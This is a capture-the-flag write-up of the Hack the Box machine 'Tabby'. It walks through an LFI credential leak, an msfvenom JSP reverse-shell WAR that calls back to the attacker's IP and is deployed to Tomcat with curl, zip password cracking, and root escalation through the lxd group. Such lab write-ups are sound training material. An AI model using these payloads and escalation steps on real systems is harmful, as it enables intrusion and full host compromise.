 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
date = 2020-11-07T16:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/06/info-4.png"
slug = "hack-the-box-tabby"
summary = "Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!"
tags = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
title = "Hack the Box - Tabby"

+++


Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!

Like we do with every box, kick it off with an `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.194`

Here are our results:
```
Nmap scan report for 10.10.10.194
Host is up (0.042s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http     Apache Tomcat
|_http-title: Apache Tomcat
8443/tcp open  ssl/http LXD container manager REST API
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=root@ghost/organizationName=linuxcontainers.org
| Subject Alternative Name: DNS:ghost, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2020-06-16T13:34:28
|_Not valid after:  2030-06-14T13:34:28
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

These results are pretty basic. `Tomcat` on 8080 a container manager and an `Apache` instance. When we visit the machine via a web browser we see that we have a hosting platform. When we start sifting through the source of the page, we see some useful things.

We see that the site is refereted to as `megahosting.htb` and there is a link toe a `.php` location with an argument.

![](/images/2020/06/image-83.png)

We'll add this to our hosts file and enumerate a bit. For starters we kick of a `gobuster` to see what else might be around.

Command:
`gobuster dir -u http://megahosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt`

While that runs, we'll also want to fuzz for subdomains.

Command:
`ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u 'http://FUZZ.megahosting.htb' -c -v`

While those run we'll check for some other basic things, like an `LFI`. We check the `news.php` location and sure enough, there is an `LFI`. We'll load up `Burpsuite` to help with this one.

![](/images/2020/06/image-84.png)

We send our `LFI` to the Repeater function and get the `passwd` file. We get this file so that we can get a good idea of the users on the machine.

![](/images/2020/06/image-85.png)

![](/images/2020/06/image-86.png)

We see our user we are potentially after is `Ash`. Now in addition to this, if we visit port `8080` we can see a 'default' `Tomcat` install.

![](/images/2020/06/image-87.png)

What we really want to take away from this is that it gives us quite a few paths. The one of particular interest is `/etc/tomcat9/tomcat-users.xml`. Now this isn't that standard path you might think. It's actually the path WITHIN the `tomcat9` instance.

![](/images/2020/06/image-92.png)

![](/images/2020/06/image-93.png)

Now that we have the user credentials we log in. Now that we can authenticate, we can look for some `Authenticated RCE's`. None of the 'standard' `Metasploit` modules seemed to work. Some googling around lead us [here](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/) and [here](https://gist.github.com/pete911/6111816). The first is on creating a backdoor using a `war` file. The second is how to leverage `curl` to upload the file.

Let's create our payload first.

Command:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=
7777 -f WAR > exploit666.war`


This creates our payload.

![](/images/2020/06/image-94.png)

Now we just need to upload it following the gist above.

Command:
`curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file rootme.war "http://megahosting.htb:8080/manager/text/deploy?path=/exploit666.war"`


We use the `/manager/text/deploy` path as stated [here](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html).

![](/images/2020/06/image-91.png)

Now with our payload uploaded, we just need to start up a `netcat` listener and execute. To do that we browse to our payload on 8080. Once we do, we get a shell back on our listener! Note: I tried the above at first with `MSFPC` and wasn't able to catch a shell back.

![](/images/2020/06/image-95.png)

We'll upgrade our shell and look for a way to pivot into `ash`. We'll download `linpeas` and start enumerating. We see a file listed as `16162020_backup.zip`

![](/images/2020/06/image-96.png)

We'll try to download this and see what's inside.

![](/images/2020/06/image-97.png)

When we try to unzip it, we are prompted with a password.

![](/images/2020/06/image-98.png)

We can try to brute the password with `fcrackzip`.

Command:
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u 16162020_backup.zip`

![](/images/2020/06/image-99.png)

As we look through the files, its just a basic backup. Nothing to be found inside. So the next logical step is, well, maybe this user has reused passwords. We try to `su` to `ash`.

Command:
`su ash`

And it works!

![](/images/2020/06/image-100.png)

We head over to the users home directory and grab our `Users.txt` flag. We will generate an new keypair for this machine using `ssh-kegen`. We can then copy this key over to the `authorized_keys` file under Ash and SSH in. Now we can start our internal enumeration again, this time as Ash.

The enumeration doesn't come back with much. the `lxd` group is is a slightly different group to see a user as a part of. Some googleing around for 'Priv esc lxd` lead me to [this resource](https://www.hackingarticles.in/lxd-privilege-escalation/). We want this part in particular:

![](/images/2020/06/image-101.png)

Let's follow these steps as shown to hopefully escalate! From the PoC:

Command:
```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

The first run failed due to some kind of connectivity error. I simply deleted the rootfs folder and re-ran `./build-apline`. Once it finished successfully, we are left with a ziped file.

Now we spin up a `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer 80`

And download the file. Now we import the image file.

Command: 
`lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias rfimage`

![](/images/2020/06/image-102.png)

We can use the `lxc image list` command to see if our image has been imported correctly.

![](/images/2020/06/image-103.png)

Now we issue config commands to our image.

Commands:
```
lxc init rfimage fire -c security.privileged=true
```

![](/images/2020/06/image-104.png)

`lxc config device add fire rfimage disk source=/ path=/mnt/root recursive=true`

![](/images/2020/06/image-105.png)

```
lxc start fire
lxc exec fire /bin/sh
```

![](/images/2020/06/image-106.png)

Now that we're in the contiainer we navigate to `/mnt/root` like the PoC says. This allows us to see all the resources from the host machine.

![](/images/2020/06/image-108.png)

Awesome! We head over to the `root` directory to group our `root.txt` flag!

![](/images/2020/06/image-107.png)

This box was pretty fun. If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).



